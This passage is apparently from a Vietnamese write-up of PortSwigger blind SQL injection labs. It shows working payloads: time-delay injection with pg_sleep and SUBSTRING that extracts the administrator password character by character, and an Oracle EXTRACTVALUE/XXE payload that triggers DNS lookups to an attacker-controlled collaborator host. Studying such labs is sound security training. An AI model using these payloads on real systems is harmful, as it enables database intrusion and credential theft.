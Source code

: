 - Lúc này ta sẽ đi tìm password của user `administrator` từ bảng users. Ta sẽ thử kiểm tra LENGTH(password) trước với payload `'; SELECT CASE WHEN (LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='`administrator`'--` => tìm được password gồm 20 kí tự
![alt text](img/image-79.png)

- Tương tự những cách làm bài trước, ta sẽ dùng `SUBSTRING()` để tìm từng kí tự. Sử dụng câu payload sau: `'; SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='`administrator`'--` => tìm được password của admin

**Notes**
Đây là 1 dạng brute-force dựa trên lỗi sql injection với time delays.
Khác với Error-base thì tín hiệu đúng/sai của một câu truy vấn sẽ được nhận biết thông qua thời gian phản hồi.

___

### Lab: Blind SQL injection with out-of-band interaction
**Yêu cầu**
The application has a blind SQL injection vulnerability in the tracking cookie. The query runs asynchronously and does not affect the response. However, it can trigger out-of-band interactions with an external domain.  
Exploit the vulnerability to generate a DNS lookup to Burp Collaborator to complete the lab.

**Thực hiện**
- Bài lab tiếp tục khai thác lỗ hổng SQLi tại cookie `TrackingID`. Tuy nhiên, ứng dụng web trong bài này sẽ sử dụng dạng Out-of-band SQLi để tương tác với external domain (domain mà ta control).
- Ta sẽ thử lần lượt các payload Out-of-band để xác định đúng loại hệ quản trị database. Cụ thể, mục tiêu sẽ là tạo ra cac `DNS lookup query` đến bên ngoài.
![alt text](img/image-80.png)

- Sau khi sử dụng payload Oracle ``ciFdsudSC71jEhYH';SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://ng7xgaf6sqtwjx0caha8k36d147vvsjh.oastify.com/"> %remote;]>'),'/l') FROM dual--``, ứng dụng đã gửi DNS query đến Burp Collaborator.  
- Payload này khai thác lỗ hổng XXE bằng cách tạo một `parameter entity remote` sử dụng keyword `SYSTEM` để truy xuất dữ liệu từ domain do attacker kiểm soát, giúp xác nhận lỗ hổng và khả năng thực thi truy vấn trên hệ thống.
![alt text](img/image-81.png)

- Như vậy, ứng dụng web sử dụng Oracle và bị trigger Out-of-band SQLi thông qua hàm `EXTRACTVALUE()` xử lí XML.

**Notes**
SQL injection với out-of-band interaction không dựa vào phản hồi trực tiếp từ web mà xác nhận thông qua các tương tác bên ngoài, như DNS lookup. Khi ứng dụng không trả về dữ liệu hay lỗi rõ ràng, phương pháp này giúp khai thác lỗ hổng bằng cách theo dõi yêu cầu gửi ra bên ngoài.  
Trong các bài lab của PortSwigger, do hệ thống chặn kết nối webhook, Burp Collaborator được sử dụng để nhận request xác nhận payload đã thực thi. Trong thực tế, có thể sử dụng server riêng hoặc webhook để theo dõi phản hồi từ ứng dụng.  
Mỗi hệ quản trị cơ sở dữ liệu có cú pháp riêng để thực hiện out-of-band interactions, cho phép khai thác dữ liệu ngay cả khi không có phản hồi trực tiếp từ hệ thống.
